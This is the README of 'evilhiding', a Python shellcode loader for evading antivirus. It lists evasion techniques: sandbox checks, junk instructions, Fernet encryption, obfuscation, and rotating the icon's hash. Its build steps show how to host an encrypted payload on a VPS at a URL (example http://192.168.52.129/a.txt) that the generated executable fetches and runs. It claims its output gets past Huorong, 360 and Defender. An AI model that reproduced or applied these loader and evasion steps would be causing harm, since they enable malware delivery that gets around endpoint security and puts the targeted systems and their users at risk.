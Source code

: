 # evilhiding

shellcode loader,bypassav,免杀工具，一款基于python的shellcode免杀加载器

![image-20231018223810347](C:/Users/admin/AppData/Roaming/Typora/typora-user-images/image-20231018223810347.png)



## 工具浅析

- 远控条件触发防沙箱
- 花指令干扰
- loader和shellcode进行fernet加密
- 触发器混淆干扰特征码
- 自动刷新ico图片的md5，防止图标特征码被查杀



## 用法

- 安装依赖

```
pip install -r requirements.txt
```

- 执行main.py

```
将shellcode填入main.py
python main.py #会生成a.txt和b.py
```

- 将a.txt放入vps，并将a.txt的url填入b.py中，再执行create.py

```
例如：url='http://192.168.52.129/a.txt'
python create.py
dist目录下生成HipsMain.exe
```

**仅支持windows系统编译!**



## 免杀测试

**过火绒**

![](picture/image-20231019203001783.png)

**过defender**

![](picture/image-20231019204156899.png)

**动态执行**

![image-20231020182032610](picture/image-20231020182032610.png)



## 日志信息

- 2023-10-23：360、火绒 动态静态均可过，windows defender静态可过



## 声明

- 仅限用于技术研究和获得正式授权的测试活动。由于传播、利用本工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，工具作者不为此承担任何责任。
- 工具并没有多少技术含量，站在前辈肩膀上造轮子而已
- 不能免杀可以提Issues，stars是持续更新的动力，嘻嘻嘻。